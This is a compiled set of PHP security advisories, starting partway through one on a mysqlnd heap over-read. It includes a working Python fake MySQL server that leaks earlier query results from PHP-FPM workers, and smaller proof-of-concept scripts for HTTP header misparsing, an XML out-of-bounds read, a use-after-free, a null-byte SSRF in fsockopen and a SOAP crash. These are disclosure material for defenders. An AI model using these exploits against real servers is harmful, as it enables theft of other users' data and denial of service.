		php_mysqlnd_read_error_from_line(p, packet->header.size - 1,
										 packet->error_info.error, sizeof(packet->error_info.error),
										 &packet->error_info.error_no, packet->error_info.sqlstate
										);
		DBG_ERR_FMT("Server error : (%u) %s", packet->error_info.error_no, packet->error_info.error);
		DBG_RETURN(PASS);
	} else if (EODATA_MARKER == *p && packet->header.size < 8) {
		/* Premature EOF. That should be COM_FIELD_LIST. But we don't support COM_FIELD_LIST anymore, thus this should not happen */
		DBG_ERR("Premature EOF. That should be COM_FIELD_LIST");
		php_error_docref(NULL, E_WARNING, "Premature EOF in result field metadata");
		DBG_RETURN(FAIL);
	}

      ...

      // Parsing logic of the field packet

      ...

	/*
	  def could be empty, thus don't allocate on the root.
	  NULL_LENGTH (0xFB) comes from COM_FIELD_LIST when the default value is NULL.
	  Otherwise the string is length encoded.
	*/
	if (packet->header.size > (size_t) (p - buf) &&
		(len = php_mysqlnd_net_field_length(&p)) &&
		len != MYSQLND_NULL_LENGTH)
	{
		BAIL_IF_NO_MORE_DATA;
		DBG_INF_FMT("Def found, length " ZEND_ULONG_FMT, len);
		meta->def = packet->memory_pool->get_chunk(packet->memory_pool, len + 1);
		memcpy(meta->def, p, len);
		meta->def[len] = '\0';
		meta->def_length = len;
		p += len;
	}

}
```

We can read in the second code block that `COM_FIELD_LIST` is not supported anymore. However, after the packet is parsed, the third code block tries to parse a `def` fields which is supposed to define the default values. However, it is used for `COM_FIELD_LIST` requests, as per the [MySQL documentation](https://dev.mysql.com/doc/dev/mysql-server/latest/page_protocol_com_query_response_text_resultset_column_definition.html#sec_protocol_com_query_response_text_resultset_column_definition_320).

Using a specifically crafted packet, we can enter the last code block, by :
- Adjusting the size of the packet header to read the malicious data;
- Adding a length field at the end which is not equal to  `MYSQLND_NULL_LENGTH`
- Adding a byte, so that macro `BAIL_IF_NO_MORE_DATA`, which verifies if `((p - begin) > packet->header.size))` doesn't redirect the control flow.

In this code block: 
- `len` now contains our arbitrary length value;
- `BAIL_IF_NO_MORE_DATA` is then called, however `p`, the cursor on the buffer, has not been modified for now and the macro is not called anymore until the end of the function;
- A memory area of size `len + 1` is allocated and the address is assigned to `meta->def`, which is returned to the end user;
- `meta->def` is filled up with `len` bytes, read from `p`. 

However, `p` points to a buffer that is `(p - pfc->cmd_buffer.buffer)` bytes length, and `pfc->cmd_buffer.buffer` points to a memory area of 4096 bytes. As `len` can be decoded as a `uint_32t`, its value can be much more higher, allowing to over-read `pfc->cmd_buffer.buffer`.
This result in adding to the MySQL server response the remaining data contains in the buffer, and the data on the heap up to `len - (4096 - (p - pfc->cmd_buffer.buffer)))`.

As the buffer used to store the `MySQL` response is not emptied after each request after being deallocated, and memory allocation with the `libc` function `malloc` almost everytime allocate a chunk located very close from the previous allocated memory area, one is able to retrieve content from earlier SQL queries by taking advantage of PHP-FPM workers, which continues running between requests and hold onto some contextual data.

During our tests, we were able to extract the content of previous SQL Query response from the memory of the PHP-FPM Worker.

### PoC
 - Start PHP-FPM with a worker pool of one worker;
 - Start a regular MySQL server with some data to be queried from;
 - Start a fake MySQL server that replies with the minimum required data and a malicious `field packet` by:
     - Adding the number of bytes we want to extract, encoded on 4 bytes;
     - Adding some filler (1 byte) data so that `BAIL_IF_NO_MORE_DATA;` doesn't exit the current control flow;
     - Modifying the packet length according to the added data.
 
- Make a request against the fake server: some data are extracted like authentication method and some of the used salt to authenticate;
- Make a legit request;
- Make a request against the fake server again, data from the previous response are added to the content.

The PHP script I used : 

``` PHP
<?php
	$port = intval($_GET["port"], 10);
	$servername = "";
	$username = "";
	$password = "";

	$conn = mysqli_init();
	$conn->real_connect($servername, $username, $password, 'audit', $port, '');

	$result = $conn->query("SELECT * from users");
	$all_fields = $result->fetch_fields();
	var_dump($result->fetch_all());
	echo(get_object_vars($all_fields[0])["def"]);
?>
```

A Python script that can be used as a fake server : 

``` PYTHON
#!/usr/bin/env python

import socket

ADDRESS = '127.0.0.1'
PORT = 3307


class Packet(dict):
    def __setattr__(self, name: str, value: str | bytes) -> None:
        self[name] = value

    def __repr__(self):
        return self.to_bytes()

    def to_bytes(self):
        return b"".join(v if isinstance(v, bytes) else bytes.fromhex(v) for v in self.values())


class MySQLPacketGen():

    @property
    def server_ok(self):
        sg = Packet()
        sg.full = "0700000200000002000000"

        return sg

    @property
    def server_greetings(self):
        sg = Packet()
        sg.packet_length =  "580000" 
        sg.packet_number =  "00" 
        sg.proto_version = "0a"
        sg.version = b'5.5.5-10.5.18-MariaDB\x00'
        sg.thread_id = "03000000"
        sg.salt = "473e3f6047257c6700"
        sg.server_capabilities = 0b1111011111111110.to_bytes(2, 'little')
        sg.server_language = "08" #latin1 COLLATE latin1_swedish_ci
        sg.server_status = 0b000000000000010.to_bytes(2, 'little')
        sg.extended_server_capabilities = 0b1000000111111111.to_bytes(2, 'little')
        sg.auth_plugin = "15"
        sg.unused = "000000000000"
        sg.mariadb_extended_server_capabilities = 0b1111.to_bytes(4, 'little')
        sg.mariadb_extended_server_capabilities_salt = "6c6b55463f49335f686c643100"
        sg.mariadb_extended_server_capabilities_auth_plugin = b'mysql_native_password'

        return sg

    @property
    def server_tabular_query_response(self):
        qr1 = Packet() #column count
        qr1.packet_length = "010000"
        qr1.packet_number = "01"
        qr1.field_count = "01"

        qr2 = Packet() #field packet
        qr2.packet_length = "180000" 
        qr2.packet_number = "02"
        qr2.catalog_length_plus_name = "0164"
        qr2.db_length_plus_name = "0164"
        qr2.table_length_plus_name = "0164"
        qr2.original_t = "0164"
        qr2.name_length_plus_name = "0164" 
        qr2.original_n = "0164" 
        qr2.canary = "0c"
        qr2.charset = "3f00"
        qr2.length = "0b000000"
        qr2.type = "03"
        qr2.flags = "0350"
        qr2.decimals = "000000"

        qr3 = Packet() #intermediate EOF
        qr3.full = "05000003fe00002200"

        qr4 = Packet() #row packet
        qr4.full = "0400000401350174"

        qr5 = Packet() #response EOF
        qr5.full = "05000005fe00002200"

        return (qr1, qr2, qr3, qr4, qr5)


class MySQLConn():
    def __init__(self, socket: socket):
        self.pg = MySQLPacketGen()
        self.conn, addr = socket.accept()
        print(f"[*] Connection from {addr}")

    def send(self, payload, message=None):
        print(f"[*] Sending {message}")
        self.conn.send(payload)

    def read(self, bytes_len=1024):
        data = self.conn.recv(bytes_len)
        if (data):
            print(f"[*] Received {data}")

    def close(self):
        self.conn.close()

    def send_server_greetings(self):
        self.send(self.pg.server_greetings.to_bytes(), "Server Greeting")

    def send_server_ok(self):
        self.send(self.pg.server_ok.to_bytes(), "Server OK")

    def send_server_tabular_query_response(self):
        self.send(b''.join(s.to_bytes() for s in self.pg.server_tabular_query_response), "Tabular response")


def tabular_response_read_heap(m: MySQLConn):
    rh = m.pg.server_tabular_query_response

    # Length of the packet is modified to include the next added data
    rh[1].packet_length = "1e0000"

    # We add a length field encoded on 4 bytes which evaluates to 65536. If the process crashes because
    # the heap has been overread, lower this value.
    rh[1].extra_def_size = "fd000001"  # 65536

    # Filler
    rh[1].extra_def_data = "aa"

    trrh = b''.join(s.to_bytes() for s in rh)

    m.send_server_greetings()
    m.read()
    m.send_server_ok()
    m.read()
    m.send(trrh, "Malicious Tabular Response [Extract heap through buffer overread]")
    m.read(65536)


def main():
    with socket.create_server((ADDRESS, PORT), family=socket.AF_INET, backlog=1) as server:
        while(True):
            msql = MySQLConn(server)
            tabular_response_read_heap(msql)
            msql.close()


main()

```

### Other problems

This is unfortunately the only place where such over-read is possible. After thorough investigation, following places have been found with a similar problem:

- RESP packet upsert filename
- OK packet message
- RESP packet for stmt row data
  - ps_fetch_from_1_to_8_bytes
  - ps_fetch_float
  - ps_fetch_double
  - ps_fetch_time
  - ps_fetch_date
  - ps_fetch_datetime
  - ps_fetch_string
  - ps_fetch_bit
- RESP packet for query row data (just possible overflow on 32bit)


### Impact
In order to exploit this vulnerability, one needs to be able to control the address of the MySQL target or execute its own script using the context on an existing PHP-FPM worker pool.
The heap content, starting from some bytes after the beginning of the buffer used to stores MySQL response can be extracted and send back to the user that initiates a SQL Query. 
For example, during our tests, we were able to extract the content of the previous SQL query response.

#### Example scenario

You're a hosting provider and you offer a bunch of services like managed databases and VPS's (not uncommon).
As a hosting provider, you may want to offer tools to your users to manage databases, something like phpmyadmin (or alike) (not uncommon). As a user, you have the choice of setting up a database yourself on a VPS hosted by that hosting provider. You could setup a malicious database server. Many different people may use the database management software, but that software connects to many different database servers; including the malicious one you set up. Your malicious database server can now trick that database management software (that different users use) to leak data of other users.


## GHSA-v8xr-gpvj-cx9g — Header parser of `http` stream wrapper does not handle folded headers
- CVE: CVE-2025-1217 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:43:52Z | URL: https://github.com/php/php-src/security/advisories/GHSA-v8xr-gpvj-cx9g
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5
- Credits: TimWolla

### Summary

The header parser of the `http` stream wrapper does not handle folded headers and passes incorrect MIME types to an attached stream notifier.

### Details

The header parser of the `http` stream parser does not understand that a header line beginning with whitespace continues the previous header and instead considers every newline to be a header separator.

This has two consequences:

1. The `STREAM_NOTIFY_MIME_TYPE_IS` notification might report an incorrect MIME type, if the `content-type` header is a folded header.
2. The `$http_response_header` array contains the header continuation lines as they appear on-the-wire, requiring userland code to be aware of folded headers and violating [RFC9112#5.2](https://datatracker.ietf.org/doc/html/rfc9112#section-5.2), which specifies:
    > A user agent that receives an [obs-fold](https://datatracker.ietf.org/doc/html/rfc9112#line.folding) in a response message that is not within a "message/http" container MUST replace each received [obs-fold](https://datatracker.ietf.org/doc/html/rfc9112#line.folding) with one or more [SP](https://datatracker.ietf.org/doc/html/rfc9112#core.rules) octets prior to interpreting the field value.

### PoC

```php
<?php
function stream_notification_callback($notification_code, $severity, $message, $message_code, $bytes_transferred, $bytes_max) {
    switch($notification_code) {
        case STREAM_NOTIFY_MIME_TYPE_IS:
            echo "Found the mime-type: ", $message, PHP_EOL;
            break;
    }
}

$ctx = stream_context_create();
stream_context_set_params($ctx, array("notification" => "stream_notification_callback"));
var_dump(file_get_contents("http://127.0.0.1:8080", false, $ctx));
var_dump($http_response_header);
```

Running against:

```
printf "HTTP/1.0 200 Ok\r\nContent-Type: text/html;\r\n    charset=utf-8\r\n\r\nbody\r\n" |nc -l 0.0.0.0 8080
```

results in:

```
Found the mime-type: text/html;
string(6) "body
"
array(3) {
  [0]=>
  string(15) "HTTP/1.0 200 Ok"
  [1]=>
  string(24) "Content-Type: text/html;"
  [2]=>
  string(17) "    charset=utf-8"
}
```

being printed (after killing `nc` with Ctrl+C), thus missing the `charset` within the mime type.

### Impact

Users of the `http` stream wrapper might interpret the response with an incorrect MIME type and more generally might misparse the response, for example by incorrectly determining which response headers belong to the final response if a redirect happened.

## GHSA-pcmh-g36c-qc44 — Streams HTTP wrapper does not fail for headers with invalid name and no colon
- CVE: CVE-2025-1734 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:43:58Z | URL: https://github.com/php/php-src/security/advisories/GHSA-pcmh-g36c-qc44
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5

The headers without colon are currently returned without in `$http_response_header`. It means that something like:

```
printf "HTTP/1.0 200 Ok\r\nContent-Type: text/html\r\nWrong-Header\r\nGood-Header: test\r\n\r\nbody\r\n" |nc -l 0.0.0.0 8000
```

results in following  `$http_response_header`

```
array(4) {
  [0]=>
  string(15) "HTTP/1.0 200 Ok"
  [1]=>
  string(23) "Content-Type: text/html"
  [2]=>
  string(12) "Wrong-Header"
  [3]=>
  string(17) "Good-Header: test"
}
```

In addition headers that contain a space in header name (before the colon) will also not fail which is not allowed by RFC.

### Impact

This can allow issues in the application when parsing the array - e.g. application could consider it as a valid header or as a continuation of the previous one (currently folding header are misbehaving so there could be some logic for that in the application that could result in a security issue). So some sort of request smuggling could be possible in this case

### Workarounds

Users can add a special handling of `$http_response_header`. No notification is triggered for this sort of header so no extra handling there is needed.


## GHSA-52jp-hrpf-2jff — Stream HTTP wrapper truncate redirect location to 1024 bytes
- CVE: CVE-2025-1861 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:44:03Z | URL: https://github.com/php/php-src/security/advisories/GHSA-52jp-hrpf-2jff
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5

There is currently limit on the location value size caused by limited size of the location buffer to 1024. However as per https://www.rfc-editor.org/rfc/rfc9110#name-uri-references , the limit is recommended to 8000. The browser limit is usually around 2048 so 1024 is really too low and it might have a real impact in practice.

### Impact

The URI truncation might result in omitting some critical information (e.g. from the query) or even redirection to other resources. It could even result in DOS of the remote site if the trucated URL results in error.

### Workarounds

There is no real workaround for this


## GHSA-hgf5-96fm-v528 — Stream HTTP wrapper header check might omit basic auth header
- CVE: CVE-2025-1736 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:44:08Z | URL: https://github.com/php/php-src/security/advisories/GHSA-hgf5-96fm-v528
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5

### Details

Currently the header check in `check_has_header` does not verify `\r` which could potentially lead to some misbehaviour if only `\n` is used in the header value. If this value is provided by user and not checked properly (e.g. it can be cookie value and it is not unlikely it could be taken from the user input (at least partially)), then it could specify it like for example `Cookie: x=y\nauhtorization:x\r\n`. If the URL has user part in it, then this can disable sending of that authorization header. That could potentially impact the result and lead potentially to DoS or potentially to some unexpected issues.

### Impact

Preventing authorization header to be sent.

There are also some implication for other headers like user-agent and other checked by this functions. The impact is less likely but there could be possibly some security implications as well.

## GHSA-p3x9-6h7p-cgfc — libxml streams use wrong `content-type` header when requesting a redirected resource
- CVE: CVE-2025-1219 | Severity: medium | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:44:17Z | URL: https://github.com/php/php-src/security/advisories/GHSA-p3x9-6h7p-cgfc
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5
- Credits: TimWolla

### Summary

When requesting a HTTP resource using the DOM or SimpleXML extensions, the wrong `content-type` header is used to determine the charset when the requested resource performs a redirect.

### Details

When the HTTP stream wrapper follows a redirect, it does not clear the list of captured headers before performing the following requests. This means in the returned array containing the response headers, the headers of multiple requests are stored one after each other. The final request comes last in this array.

The `php_libxml_input_buffer_create_filename()` / `php_libxml_sniff_charset_from_stream()` function scans the header array from top to bottom, returning after finding the first `content-type` header. This `content-type` header does not necessarily belong to the response that corresponds to the HTML body that is being parsed.

### PoC

redirect.php
```
<?php

header('content-type: text/html;charset=utf-16');
header('location: http://example.com');
```

Run: `php -S localhost:8080` and then execute

```
<?php

// Or using DOMDocument / SimpleXML
$document = \Dom\HTMLDocument::createFromFile("http://localhost:8080/redirect.php");

if (\str_contains($document->querySelector('body')->textContent, 'Example')) {
  throw new Exception('Refusing to store example content');
}

var_dump(\str_contains($document->saveHtml(), 'Example')); // bool(true)
```

### Impact

This allows an attacker to cause a document to be parsed incorrectly, changing its meaning and possibly bypassing validation. When exporting such a document with `->saveHtml()` the document will be returned with the original charset.

Users that request documents via HTTP using the DOM or SimpleXML extensions are impacted.

## GHSA-wg4p-4hqh-c3g9 — Possible out of bounds read when XML_OPTION_SKIP_TAGSTART used
- CVE: None | Severity: low | CVSS: None `None` | CWE: 
- Published: 2025-03-13T17:44:29Z | URL: https://github.com/php/php-src/security/advisories/GHSA-wg4p-4hqh-c3g9
- Affected /: vulnerable < 8.1.32 patched 8.1.32
- Affected /: vulnerable < 8.2.28 patched 8.2.28
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5
- Credits: ndossche

This is a reocurrence of bug #72714 .

### Impact

Out of bounds read can leak heap contents.

```php
<?php
$sample = "<?xml version=\"1.0\"?><test><child/></test>";
$parser = xml_parser_create();
xml_parser_set_option($parser, XML_OPTION_SKIP_TAGSTART, 100);
$res = xml_parse_into_struct($parser,$sample,$vals,$index);
var_dump($vals);
```

If we set `XML_OPTION_SKIP_TAGSTART` to a high value, we can read out of bounds.
It doesn't even have to be a crazy high value, as long as an attacker can supply XML with shorter tag names than expected they can trigger an OOB read.
I coincidentally came across this by reviewing `xml.c`, I noticed this is a reocurrence of https://bugs.php.net/bug.php?id=72714
This was originally fixed in https://github.com/php/php-src/commit/9164dc11e2323b8b80c389bb13d70789799b44fc, but it seems the fix was either incomplete or not merged properly.
Granted, this option is rarely used.

### Workarounds

Don't use `XML_OPTION_SKIP_TAGSTART`.


## GHSA-rwp7-7vc6-8477 — Reference counting in php_request_shutdown causes Use-After-Free
- CVE: CVE-2024-11235 | Severity: medium | CVSS: None `None` | CWE: CWE-416
- Published: 2025-03-13T17:44:39Z | URL: https://github.com/php/php-src/security/advisories/GHSA-rwp7-7vc6-8477
- Affected /: vulnerable < 8.3.18 patched 8.3.19
- Affected /: vulnerable < 8.4.5 patched 8.4.5
- Credits: junwha

### Summary

Exception handler frees variables via `cleanup_live_vars` for termination. However, the subsequent `php_request_shutdown` performs reference counting on these variables using `zend_gc_refcount`(read) and `zend_gc_delref`(write), resulting in use-after-free. Since `zend_mm_free_small` stores metadata in freed memory chunks, this use-after-free vulnerability may allows manipulation of the Zend allocator through reference count behaviors.

### Details

- **OS**: Ubuntu 22.04 (x86)
- **PHP Version**: php-8.4.0beta5
- **FYI**: A similar bug with the handler (#10169) was reported two years ago and patched, but it just increased the reference count before the handler.

```cpp
Access:
    #0 0x55d832ba169c in zend_gc_refcount Zend/zend_types.h:1318:12
    #1 0x55d832ba169c in zval_refcount_p Zend/zend_types.h:1367:9
    #2 0x55d832ba169c in zval_call_destructor Zend/zend_execute_API.c:217:35
    #3 0x55d832e53559 in zend_hash_reverse_apply Zend/zend_hash.c:2226:13
    #4 0x55d832ba1062 in shutdown_destructors Zend/zend_execute_API.c:262:4
    #5 0x55d832fd0b84 in zend_call_destructors Zend/zend.c:1325:3
    #6 0x55d8328338a7 in php_request_shutdown main/main.c:1916:3
    #7 0x55d832fdf066 in do_cli sapi/cli/php_cli.c:1105:3
    #8 0x55d832fdb393 in main sapi/cli/php_cli.c:1309:18
    #9 0x7f5f61429d8f in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #10 0x7f5f61429e3f in __libc_start_main csu/../csu/libc-start.c:392:3
    #11 0x55d832001ce4 in _start (sapi/cli/php+0x401ce4)

Free:
    #1 0x55d832a35696 in __zend_free Zend/zend_alloc.c:3308:2
    #2 0x55d832a38b0d in _efree Zend/zend_alloc.c:2747:3
    #3 0x55d832f3bfbf in zend_objects_store_del Zend/zend_objects_API.c:198:3
    #4 0x55d832fb603b in rc_dtor_func Zend/zend_variables.c:57:2
    #5 0x55d832bcdaee in cleanup_live_vars Zend/zend_execute.c
    #6 0x55d832e01cd5 in zend_dispatch_try_catch_finally_helper_SPEC Zend/zend_vm_execute.h:3227:2
    #7 0x55d832d5f83e in ZEND_HANDLE_EXCEPTION_SPEC_HANDLER Zend/zend_vm_execute.h
    #8 0x55d832bd2aa4 in execute_ex Zend/zend_vm_execute.h:58585:7
    #9 0x55d832bd362d in zend_execute Zend/zend_vm_execute.h:64237:2
    #10 0x55d832fd6a09 in zend_execute_script Zend/zend.c:1928:3
    #11 0x55d832839658 in php_execute_script_ex main/main.c:2578:13
    #12 0x55d832839c08 in php_execute_script main/main.c:2618:9
    #13 0x55d832fde33c in do_cli sapi/cli/php_cli.c:935:5
    #14 0x55d832fdb393 in main sapi/cli/php_cli.c:1309:18
    #15 0x7f5f61429d8f in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16

Alloc:
    #1 0x55d832a390cc in __zend_malloc Zend/zend_alloc.c:3280:14
    #2 0x55d832a389ed in _emalloc Zend/zend_alloc.c:2737:10
    #3 0x55d832f3e1fc in zend_objects_new Zend/zend_objects.c:210:24
    #4 0x55d832a59ddb in _object_and_properties_init Zend/zend_API.c:1823:22
    #5 0x55d832a5a608 in object_init_ex Zend/zend_API.c:1846:9
    #6 0x55d832cb3990 in ZEND_NEW_SPEC_CONST_UNUSED_HANDLER Zend/zend_vm_execute.h:10895:6
    #7 0x55d832bd2aa4 in execute_ex Zend/zend_vm_execute.h:58585:7
    #8 0x55d832bd362d in zend_execute Zend/zend_vm_execute.h:64237:2
    #9 0x55d832fd6a09 in zend_execute_script Zend/zend.c:1928:3
    #10 0x55d832839658 in php_execute_script_ex main/main.c:2578:13
    #11 0x55d832839c08 in php_execute_script main/main.c:2618:9
    #12 0x55d832fde33c in do_cli sapi/cli/php_cli.c:935:5
    #13 0x55d832fdb393 in main sapi/cli/php_cli.c:1309:18
    #14 0x7f5f61429d8f in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
```

1. **free**: the object has a zero reference when the exception occurs, and it frees the object by `_efree`. `_efree` calls `zend_mm_free_small` internally, which writes the reference count-overlapping area to manage `zend_mm_free_slot` (Zend/zend_alloc.c:1434).  
2. **access**: after the exception is processed, the program requests `php_request_shutdown`, and starts to destroy the variables using destructors. In this step, PHP inspects the reference count to prevent double-free. However, the reference count is no longer valid, and it reads the part of the Zend metadata managed by `zend_mm_free_small`.
3. **undefined behavior*: After the first UAF, it subsequently accesses the variables and invoke `zend_gc_delref` as well. Thus, it manipulates the metadata of `zend_mm_free_small`.  Moreover, since the metadata contains typically larger value than the original reference count, the GC also lead to undefined behavior.   

### PoC
In PoC, `Foo` class has an `echo` for the non-defined constant `HI`, and `$foo->foo()->baz ??= 1` triggers this exception.

```php
<?php
class Foo {
    public function foo() {
        echo __METHOD__, "\n";
        return $this;
    }

    public function __set($name, $value) {
        echo HI, "\n";
        var_dump($value);
    }
}

$foo = new Foo();
$foo->foo()->baz ??= 1;
?>
```

Build command

```bash
./buildconf --force && \
./configure && \
make -j`nproc`
```

Run with

```cpp
./sapi/cli/php ./foo.php
```

### Impact

This is a heap use-after-free vulnerability. It occurs because reference counting is performed after live variables are destroyed by exception handlers, resulting in the manipulation of the metadata of Zend allocator. Any component that can create variables, trigger exceptions, and terminate with php_request_shutdown is affected (including PHP CLI and PHP-fuzz-execute).

To exploit this, an attacker would have to:

* Find an application with code similar to this
* Ensure that an exception is thrown in `__set` (it is unlikely that real code will have a statement that always throws here)
* Exploit the use-after-free

This is unlikely but possible.

### Version

This is present only in PHP 8.3+. The PHP 8.2 and versions before are not impacted.


## GHSA-3cr5-j632-f35r — Null byte termination in hostnames
- CVE: CVE-2025-1220 | Severity: low | CVSS: None `None` | CWE: CWE-918
- Published: 2025-07-03T12:27:07Z | URL: https://github.com/php/php-src/security/advisories/GHSA-3cr5-j632-f35r
- Affected /: vulnerable < 8.1.33 patched 8.1.33
- Affected /: vulnerable < 8.2.29 patched 8.2.29
- Affected /: vulnerable < 8.3.23 patched 8.3.23
- Affected /: vulnerable < 8.4.10 patched 8.4.10
- Credits: mdsnins

### Summary
`fsockopen()` doesn't regard `hostname` as well, `hostname` is terminated at the null byte. This can cause Server Side Request Forgery in general case.

### Details

During `fsockopen` is being called `hostname` is passed directly to the low-level C function calls.

[/etc/standard/fsock.c:50](https://github.com/php/php-src/blob/80637d11b39b26f32fc2fbf5150c9564dd30edd5/ext/standard/fsock.c#L50)
```c
static void php_fsockopen_stream(INTERNAL_FUNCTION_PARAMETERS, int persistent)
{
	char *host;
	size_t host_len;
	zend_long port = -1;
	zval *zerrno = NULL, *zerrstr = NULL;
	double timeout;
	bool timeout_is_null = 1;
#ifndef PHP_WIN32
	time_t conv;
#else
	long conv;
#endif
	struct timeval tv;
	char *hashkey = NULL;
	php_stream *stream = NULL;
	int err;
	char *hostname = NULL;
	size_t hostname_len;
	zend_string *errstr = NULL;

	ZEND_PARSE_PARAMETERS_START(1, 5)
		Z_PARAM_STRING(host, host_len)
		Z_PARAM_OPTIONAL
		Z_PARAM_LONG(port)
		Z_PARAM_ZVAL(zerrno)
		Z_PARAM_ZVAL(zerrstr)
		Z_PARAM_DOUBLE_OR_NULL(timeout, timeout_is_null)
	ZEND_PARSE_PARAMETERS_END();

// ...

	stream = php_stream_xport_create(hostname, hostname_len, REPORT_ERRORS,
			STREAM_XPORT_CLIENT | STREAM_XPORT_CONNECT, hashkey, &tv, NULL, &errstr, &err);

```

When `fsockopen()` is called, it retrieves hostname from first parameter, into `host` and `host_len`. `host` can contain null bytes in the middle of the string, but `host_len` can be used to prevent unexpected null termination. These two `host` and `host_len` is passed to `php_stream_xport_create()`


[/main/streams/transports.c:_php_stream_xporet_create()](https://github.com/php/php-src/blob/80637d11b39b26f32fc2fbf5150c9564dd30edd5/main/streams/transports.c#L97)

```c
	orig_path = name;
	for (p = name; isalnum((int)*p) || *p == '+' || *p == '-' || *p == '.'; p++) {
		n++;
	}

	if ((*p == ':') && (n > 1) && !strncmp("://", p, 3)) {
		protocol = name;
		name = p + 3;
		namelen -= n + 3;
	} else {
		protocol = "tcp";
		n = 3;
	}
```

After TCP factory is selected, `php_network_getaddresses()` is called, but still null bytes or any control characters are not processed. This will lead Server Side Request Forgery.

While other url-related functions like [parse_url](https://github.com/php/php-src/blob/80637d11b39b26f32fc2fbf5150c9564dd30edd5/ext/standard/url.c#L319) has processing logic using `zend_string` type and `iscntrl()` check. This difference can be used to trigger SSRF in general case.

For example, one developer can write following reasonable code.

```php
<?php

$connect_host = "(user_given_host):(user_given_port)";

$host = parse_url($connect_host, PHP_URL_HOST);
if(!str_ends_with($host, ".safedomain.com"))
  die("Wrong host");

$fp = fsockopen($connect_host);

...
```

When `$connect_host` is given as `localhost\0.safedomain.com`, `parse_url` will return `localhost_.safedomain.com` as its host, which can pass the security check, but `fsockopen()` will connect to `localhost` and occurs server side request forgery.

### PoC
```php
<?php

$fp = fsockopen("localhost\0.some-domain-for-me.com, 4000);
fwrite($fp, "TEST\n");
fclose($fp);
```

This code will connect to `localhost:4000`.

### Impact

Server Side Request Forgery

### Classification

PHP does not usually classify `\0` as a security issue because users are expected to sanitize the input. Nevertheless this was considered as a low impact security issue as a precaution for users that do not do that. It also take into account that the patch is simple.


## GHSA-453j-q27h-5p8x — NULL Pointer Dereference in PHP SOAP Extension via Large XML Namespace Prefix
- CVE: CVE-2025-6491 | Severity: medium | CVSS: 5.9 `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:H` | CWE: CWE-476
- Published: 2025-07-03T12:27:21Z | URL: https://github.com/php/php-src/security/advisories/GHSA-453j-q27h-5p8x
- Affected /: vulnerable < 8.1.33 patched 8.1.33
- Affected /: vulnerable < 8.2.29 patched 8.2.29
- Affected /: vulnerable < 8.3.23 patched 8.3.23
- Affected /: vulnerable < 8.4.10 patched 8.4.10
- Credits: Lekssays

### Summary

If a SoapVar instance is created with a fully qualified name larger than 2G, this will cause a NULL pointer dereference resulting in a segmentation fault, leading to a denial of service.

**Product**: PHP <= 8.5.0-dev with libxml2 < 2.13

**Discovered by**: Ahmed Lekssays ([Qatar Computing Research Institute](https://cs.qcri.org)).

### Details
Libxml versions prior to 2.13 cannot correctly handle a call to xmlNodeSetName() with a name longer than 2G. It will leave the node object in an invalid state with a NULL name. This later causes a NULL pointer dereference when using the name during message serialization.

This can be exploited if a SoapVar is created with a fully qualified name that is longer than 2G. This would be possible if some application code uses a namespace prefix from an untrusted source like from a remote SOAP service.

### PoC
Create a PHP file with the following content:

```php
<?php
ini_set('memory_limit', '6144M');
// 2 GB prefix to overflow int (INT_MAX = 2147483647)
$hugePrefix = str_repeat("A", 0x7fffffff);
// This is the local part of the XML name
$localName = "Element";
// This will be passed to xmlBuildQName(prefix: hugePrefix, ncname: localName)
$soapVar = new SoapVar(
    "value",
    XSD_STRING,
    null,
    null,
    "{$hugePrefix}:{$localName}" // Triggers xmlBuildQName
);
$options = [
    'location' => 'http://127.0.0.1/', // localhost dummy
    'uri' => 'urn:dummy',
    'trace' => 1,
    'exceptions' => true,
];
try {
    $client = new SoapClient(null, $options);
    $client->__soapCall("DummyFunction", [$soapVar]);
} catch (Exception $e) {
    echo "Caught Exception: " . $e->getMessage() . "\n";
}
?>
```

Run with: `php poc.php`

The script will immediately crash with a segmentation fault. GDB shows the crash occurs in strcmp() with a null pointer dereference. Valgrind confirms "Invalid read of size 1 at address 0x0".

### Impact
This is a null pointer dereference vulnerability (CWE-476) that affects any PHP installation with the SOAP extension enabled. The vulnerability can be triggered when a SoapVar is created with a qualified name based on user-controlled SOAP data.

Impact includes:
- Denial of Service: Reliable crash causing PHP process termination
- Service disruption: Affects web applications using SOAP functionality

### GDB Trace
```
GNU gdb (Ubuntu 16.2-8ubuntu1) 16.2
Reading symbols from /usr/local/bin/php...
(gdb) b xmlBuildQName
Breakpoint 1 at 0x14b440
(gdb) run
Starting program: /usr/local/bin/php poc.php
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
__GI_strcmp () at ../sysdeps/aarch64/strcmp.S:78

(gdb) bt
#0  __GI_strcmp () at ../sysdeps/aarch64/strcmp.S:78
